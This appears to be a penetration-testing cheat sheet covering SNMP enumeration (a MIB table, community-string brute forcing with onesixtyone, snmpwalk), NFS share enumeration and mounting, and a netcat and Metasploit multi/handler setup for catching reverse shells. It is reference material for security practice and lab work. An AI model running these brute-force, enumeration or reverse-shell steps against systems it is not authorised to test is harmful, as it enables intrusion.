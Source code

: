## Port 161 - SNMP

| MIB Values | Windows Parameters |
| ---------- | ------------------ |
| 1.3.6.1.2.1.25.1.6.0 | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name |
| 1.3.6.1.4.1.77.1.2.25 | User Accounts |
| 1.3.6.1.2.1.6.13.1.3 | TCP Local Ports |

``` bash
# Brute force community strings
# echo public > community
# echo private >> community
# echo manager >> community
# for ip in $(seq 1 254);do echo 10.11.1.$ip;done > snmp-ips
onesixtyone -c community -i snmp-ips

# Enumerate entire MIB tree
snmpwalk -c public -v1 $ip
# Enumerate specific MIB Value
snmpwalk -c public -v1 $ip $MIB_Value

snmp-check $ip
```
## Port 2049 - NFS

``` bash
# NFS < v4
# Enumerating shares available, and mount points
showmount -e $ip
showmount -a $ip

# Mounting, x = NFS Version
mount -t nfs -o vers=x $ip:<share> <local_dir>

# On target machine
# Find mount points on the target where SUID programs and scripts can be run from 
mount | grep 'nosuid\|noexec'
```

## Shells / Payloads

### Universal Listeners
``` bash
# Netcat
[sudo] rlwrap nc -nvlp <port>

# msf multi/handler
msf(exploit/multi/handler)> set payload path/to/payload
msf(exploit/multi/handler)> set LHOST <ip> # or <interface>
msf(exploit/multi/handler)> set LPORT <port>
```
